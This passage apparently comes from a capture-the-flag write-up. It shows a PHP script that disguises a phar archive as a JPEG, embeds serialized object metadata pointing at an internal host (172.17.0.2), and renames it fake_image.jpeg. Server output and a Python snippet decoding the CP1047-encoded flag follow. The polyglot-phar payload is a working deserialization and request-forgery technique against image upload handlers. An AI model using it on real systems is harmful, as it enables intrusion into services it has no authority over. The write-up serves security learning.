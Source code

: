 ```
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
class MainClass {}
$object = new MainClass;
$object->url = 'http://172.17.0.2/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28';
$phar->setMetadata($object);
$phar->stopBuffering();


rename("phar.phar","fake_image.jpeg");
?>
```

And yes we got last one :) 

<p align="center"> <img src="https://user-images.githubusercontent.com/7364615/52182462-be094b00-27fd-11e9-8968-702828f91051.png"></p>

```
File is not an image. http://172.17.0.2b'\xc8\x85\x93\x93\x96@a\x86\x85\xa3\x83\x88\xa1l\xad\xbd_|]M@@\x94\x85'
```


```
File is not an image. http://172.17.0.2/%66%65%74%63%68%7e%25%5b%5d%5e%40%29%28b'\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'
```

So our last step will be to decode
**'\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'** using same charset **CP1047**

```
import ebcdic
url = '\xc6\x93\x81\x87\xc0\xd7\xc8\xd7m\xe2\xa3\x99\x85\x81\x94\xa2m\x81\x99\x85m\xa3\xf0\xf0m\xd4\x81\x89\x95\xe2\xa3\x99\x85\x81\x94\xf0\xd0'.decode("cp1047")
print url
```
